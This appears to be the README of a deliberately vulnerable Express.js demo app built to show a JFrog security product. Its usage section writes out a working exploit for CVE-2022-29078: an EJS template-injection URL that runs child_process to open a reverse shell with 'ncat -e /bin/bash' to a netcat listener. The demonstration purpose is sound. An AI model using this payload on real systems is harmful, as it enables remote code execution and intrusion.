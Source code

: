 # VulnExpress demo

## Overview
This a demo Express JS application to illustrate how a critical vulnerability can be exploited and how it could have been detected and remediated using [Jfrog Advanced Security](https://jfrog.com/advanced-security/) new features.


   <img src="https://github.com/muldos/vuln-express/raw/master/images/home.png" alt="Home page overview" width="100%" style="margin: 20px;"/>

## Build the project and the docker image

Build the project

`npm install`

Run it locally

`npm start`

Build the docker image

`docker build . -t vuln-ejs:latest`

Run it

`docker run -p 3000:3000 vuln-ejs:latest`

## Usage

1 - With netcat start listening on a given host, on the port 1337 for example

`nc -lv 1337`

Then we will exploit CVE-2022-29078 RCE to create a remote shell by issuing the following command in the container

```ncat host.docker.internal 1337 -e /bin/bash```

Note : pay attention that the netcat command may differs between the host OS & the container's distro (in macosx is it `nc`, while in the container it is `ncat`)


2 - To do that you will exploit the vulnerabilities using the following url 

`http://localhost:3000/?id=David&settings[view%20options][outputFunctionName]=x;process.mainModule.require(%27child_process%27).execSync(%27ncat%20host.docker.internal%201337%20-e%20/bin/bash%27);s`

Replace `host.docker.internal` if needed, to open your remote shell where your step 1 netcat processing is listening.

![Exploit overview](/images/exploited.png)

To trigger the exploit : 

open a terminal and run 

`nc -lv 1337`

Then use the link in the application to open the web shell.

## Demo Gitlab CI distribution pipeline

![Pipeline overview](/images/demo-distribution.png)